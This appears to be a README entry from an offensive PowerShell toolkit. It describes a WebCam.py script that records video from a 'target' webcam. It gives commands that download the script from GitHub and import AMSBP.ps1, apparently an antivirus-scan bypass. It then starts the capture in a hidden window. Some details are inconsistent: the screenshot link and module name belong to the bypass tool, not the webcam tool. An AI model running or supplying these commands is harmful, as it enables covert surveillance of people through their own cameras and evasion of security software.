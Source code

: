 ## WebCam.py

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|WebCam|Capture video using target webcam|User Land|[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/AMSBP.png)|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WebCam-Capture/WebCam.py1" -OutFile "WebCam.py"
```

```powershell
Import-Module -Name ".\AMSBP.ps1" -Force
AMSBP
```

<br />

credits: @AHLASaad \ @Avinab Saha
URL: https://learnopencv.com/read-write-and-display-a-video-using-opencv-cpp-python/


#Check if opencv its installed
[bool](pip3 list|findstr /C:"opencv-python")

# it installs opencv and numpy
pip3 install opencv-python

# Edit WebCam.py and change next cmdline to point to our python\site-packages dir
sys.path.append("c:\\users\\pedro\\appdata\\local\\programs\\python\\python39\\lib\\site-packages")

#Start capture
Start-Process -WindowStyle hidden python3 -argumentlist "WebCam.py"

#Stop capture
stop-process -name python3.9
